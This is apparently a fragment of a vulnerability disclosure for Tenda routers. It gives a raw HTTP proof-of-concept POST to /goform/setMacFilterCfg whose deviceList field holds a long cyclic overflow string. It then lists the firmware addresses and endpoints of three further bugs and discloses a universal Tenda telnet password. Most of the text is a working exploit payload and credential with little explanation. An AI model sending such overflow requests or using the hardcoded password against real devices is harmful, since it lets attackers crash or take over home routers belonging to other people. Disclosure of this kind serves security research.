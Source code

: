 **poc**

```http
POST /goform/setMacFilterCfg HTTP/1.1
Host: 192.168.11.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 51
Origin: http://192.168.11.1
Connection: close
Referer: http://192.168.11.1/iptv.html?random=0.7642888131213508&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcmho1qw


macFilterType=black&deviceList=aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac\r

```



### bug2 

0x43AF3C

goform/SetVirtualServerCfg



### bug3

0x43B3C4

goform/SetStaticRouteCfg



### bug4

0x43FDCC

goform/SetNetControlList





## tenda AX2

tenda通用telnet密码Fireitup
https://www.anquanke.com/post/id/283630#h3-2
AX12真机分析


